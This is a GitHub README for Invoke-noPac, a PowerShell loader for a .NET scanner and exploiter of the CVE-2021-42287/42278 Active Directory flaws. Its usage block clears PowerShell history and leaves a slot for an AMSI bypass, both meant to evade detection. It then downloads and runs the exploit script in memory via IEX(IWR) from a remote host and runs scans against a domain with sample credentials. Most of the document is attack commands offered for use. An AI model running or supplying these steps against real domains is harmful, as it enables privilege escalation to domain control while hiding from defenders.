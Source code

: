 # Invoke-noPac

## The .Net assembly is based on my fork https://github.com/ricardojba/noPac that has a few code changes to improve upon the original.

[PowerSharpPack](https://github.com/S3cur3Th1sSh1t/PowerSharpPack) style .Net Assembly loader for the [CVE-2021-42287 - CVE-2021-42278] Scanner & Exploiter [noPac](https://github.com/ricardojba/noPac).

Usage:

```
Set-PSReadlineOption -HistorySaveStyle SaveNothing

<Insert-Your-AMSI-Bypass-From-AMSI.FAIL-Here>

[Net.ServicePointManager]::SecurityProtocol=[Net.SecurityProtocolType]::Tls12
[system.net.webrequest]::defaultwebproxy = new-object system.net.webproxy('http://proxy:8080')
[system.net.webrequest]::defaultwebproxy.BypassProxyOnLocal = $true
[system.net.webrequest]::defaultwebproxy.credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials
# [system.net.webrequest]::defaultwebproxy.credentials = Get-Credential

IEX(IWR -UseBasicParsing -UserAgent "hi-there-blueteam" 'https://raw.githubusercontent.com/ricardojba/Invoke-noPac/main/Invoke-noPac.ps1')

Invoke-noPac
Invoke-noPac -Command "scan -domain htb.local -user domain_user -pass 'Password123!'"
Invoke-noPac -Command "scan -domain htb.local -user domain_user -pass 'Password123!' /enctype rc4"
```

## Credits

[cube0x0](https://twitter.com/cube0x0) for the original [noPac](https://github.com/cube0x0/noPac).
